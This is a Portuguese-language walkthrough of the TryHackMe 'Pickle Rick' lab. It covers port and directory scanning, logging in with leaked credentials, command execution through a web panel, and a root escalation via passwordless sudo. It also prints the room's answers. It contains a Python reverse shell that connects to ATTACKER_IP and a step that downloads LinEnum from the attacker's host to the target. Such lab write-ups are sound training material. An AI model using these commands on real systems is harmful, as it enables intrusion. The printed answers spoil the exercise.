


# Pickle Rick - TryHackMe

**Difficulty: Easy**

### Nmap
```bash
nmap -p- -v -sV 10.64.184.145

PORT STATE SERVICE VERSION 
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
```

### Page Source
```
Username: R1ckRul3s
```

No wappalyzer, foi possível encontrar
- Apache HTTP Server
- JQuery
- Bootstrap

### ffuf
```bash
ffuf -w /opt/seclists/Discovery/Web-Content/big.txt -u http://10.64.184.145/FUZZ -e .php,.zip,.bak,.sql,.html,.txt

assets                  [Status: 301]
denied.php              [Status: 302]
index.html              [Status: 200]
login.php               [Status: 200]
portal.php              [Status: 302]
robots.txt              [Status: 200]
server-status           [Status: 403]
```

No robots.txt tem essa informação:
```
Wubbalubbadubdub
```

Ao entrar em login.php encontramos um painel de login. Vamos usar o Username R1ckRul3s, posso rodar o hydra com a wordlist rockyou para tentar encontrar a senha, mas antes vou usar o Wubbalubbadubdub que foi encontrado dentro de robots.txt, para ver se é uma possível senha.

Funcionou, agora tenho acesso ao portal.php
Username
```
R1ckRul3s
```
Password
```
Wubbalubbadubdub
```

Ao acessar o Page Source do portal.php, encontro um comentário em base64
```
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```

É um rabbit hole, fiz alguns testes com:
```bash
echo "Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==" | base64
```

```bash
echo -n "Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==" | base64 -di | base64 -di
```
Então segui em frente.

O portal.php tem um command panel. Se testarmos isso, utilizando por exemplo


utilizando, python3 --version, percebo que possuí python, então, vou fazer uma reverse shell com isso. Vou utilizar o https://www.revshells.com/

```bash
nc -lvnp 3333
```

```bash
export RHOST="ATTACKER_IP";export RPORT=3333;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```



Após rodar a reverse shell no command panel, obtive a shell. Agora vou deixá-la interativa

```bash
$ python3 -c "import pty;pty.spawn('/bin/bash')"
```
Ctrl + Z
```bash
stty raw -echo; fg
```
```bash
export TERM=xterm
```

Explorando o ambiente...
### First Ingredient
```bash
www-data@ip-10-64-184-145:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt 
```
```
mr. meeseek hair
```

### Second Ingredient
```bash
www-data@ip-10-64-184-145:/home/rick$ cat 'second ingredients' 
```
```
1 jerry tear
```

Na minha máquina vou utilizar
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/refs/heads/master/LinEnum.sh
```
 ```bash
python3 -m http.server 8000
 ```

Voltando para a máquina vítima
```
www-data@ip-10-64-184-145:/tmp$ wget http://ATTACKER_IP:8000/LinEnum.sh
```
```bash
www-data@ip-10-64-184-145:/tmp$ chmod +x LinEnum.sh
```
```bash
www-data@ip-10-64-184-145:/tmp$ ./LinEnum.sh
```

Com LinEnum foi possível encontrar alguns caminhos, mas esse é o mais fácil
```
[+] We can sudo without supplying a password!
User www-data may run the following commands:
    (ALL) NOPASSWD: ALL
```
é possível usar sudo sem a necessidade de password, então:
```bash
www-data@ip-10-64-184-145:/tmp$ sudo su
```

### Third Ingredient
```bash
root@ip-10-64-184-145:~ cat 3rd.txt 
```
```
3rd ingredients: fleeb juice
```
